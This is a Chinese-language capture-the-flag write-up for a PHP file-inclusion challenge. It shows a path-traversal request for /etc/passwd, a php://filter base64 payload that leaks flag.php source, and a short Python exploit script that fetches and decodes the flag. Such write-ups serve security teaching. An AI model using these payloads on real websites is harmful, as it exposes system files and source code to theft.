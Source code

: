 # 分析

来自[[ACTF2020 新生赛]Include](https://buuoj.cn/challenges#[ACTF2020%20%E6%96%B0%E7%94%9F%E8%B5%9B]Include)

按照提示，访问?file=flag.php

![image-20240625191706808](image/image-20240625191706808.png)

首先想到是否有文件包含，`http://a0bbc459-769e-4fdd-b85a-02c2803046b5.node5.buuoj.cn:81/?file=../../../../../etc/passwd`

![image-20240625192006604](image/image-20240625192006604.png)

寻找flag无果，回味提示，flag是否在flag.php的源码里面呢，尝试php伪协议尝试得到源码,pyload=`?file=php://filter/read=convert.base64-encode/resource=flag.php`

![image-20240625194543700](image/image-20240625194543700.png)

进行base64解码得

![image-20240625194657936](image/image-20240625194657936.png)

# exp

```python
import requests
import base64
import re

url = "http://a0bbc459-769e-4fdd-b85a-02c2803046b5.node5.buuoj.cn:81/"
kw = {
    'file': 'php://filter/read=convert.base64-encode/resource=flag.php'
}
res = requests.get(url, params=kw)

if res.status_code == 200:
    res_text = res.content.decode('utf-8')
    # 打印响应内容（可选）
    #print(res_text)
    line=res_text.splitlines()
    flag=str(base64.b64decode(line[1]))
    #print(flag)
    # 使用正则表达式查找 flag
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, flag)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag is -->> {flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

